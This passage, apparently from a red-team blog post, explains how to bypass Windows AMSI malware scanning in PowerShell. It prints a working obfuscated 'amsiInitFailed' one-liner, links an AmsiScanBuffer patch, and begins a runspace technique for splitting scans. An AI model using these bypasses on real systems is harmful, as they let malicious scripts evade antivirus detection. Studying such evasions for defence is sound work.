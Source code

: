 Today, a trivial combination of those two simple ideas still works. Still under 140 characters! An 8 year old hacker could have come up with that.

```
[Ref].Assembly.GetType("System.Management.Automation.Amsi"+"Utils").GetField("amsiInit"+"Failed","NonPublic,Static").SetValue($null,$true)
```

The screenshot below shows a blacklisted keyword getting caught by AMSI, then our one-liner bypass, and the same keyword not getting caught anymore:

[image0]


### AMSIScanBuffer patch

[AMSIScanBuffer](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) is the Windows API that scans content for malware and returns a result.

If we manage to patch the function, then none of our PowerShell commands will get scanned and we can bypass AMSI.

Rasta Mouse [published](https://rastamouse.me/blog/asb-bypass-pt3/) such a bypass in November 2018 ([source1](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass.ps1), [source2](https://github.com/webbie321/AmsiScanBufferBypass/blob/master/ASBBypass.ps1)).
Still, wouldn't it be interesting to bypass that capability just because we can? This is our next section with Runspaces.

### Runspaces and Powershell objects (a.k.a. skid learns some PowerShell)

#### Quick intro to Powershell runspaces

"Runspaces are the enclosed area that the thread(s) running PowerShell operate within. While the runspace that is used with the PowerShell console is restricted to a single thread, you can use additional runspaces to allow for use of additional threads" [(source)](https://adamtheautomator.com/powershell-multithreading/#Runspaces_Kinda_Like_Jobs_but_Faster)

In a penetration testing/red teaming context, Powershell runspace  has been used to bypass applocker and CLM constrained language mode
https://www.redteam.cafe/red-team/powershell/powershell-custom-runspace

#### Using runspaces to split AMSI scans into multiple sessions

Here we are not really interested in multithreading, but into the additional control runspaces give us. Our goal is to run individual commands in their own AMSI session, as if we were running them one by one in the Powershell GUI.

Below, we create a runspace instance $Runspace, as well two [powershell instances](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.powershell?view=powershellsdk-7.0.0) $PowerShell1 and $PowerShell2, and link them to that same $Runspace (which needs to be Open)

Powershell instances are commands or scripts that are executed against a Runspace. Once created, we run them individually using the Invoke() method.

```
$Runspace = [runspacefactory]::CreateRunspace().Open()
         
$PowerShell1 = [powershell]::Create()
$PowerShell1.runspace = $Runspace
$PowerShell1.AddScript({$command1}).Invoke();

$PowerShell2 = [powershell]::Create()
$PowerShell2.runspace = $Runspace
$PowerShell2.AddScript({$command2}).Invoke();
```
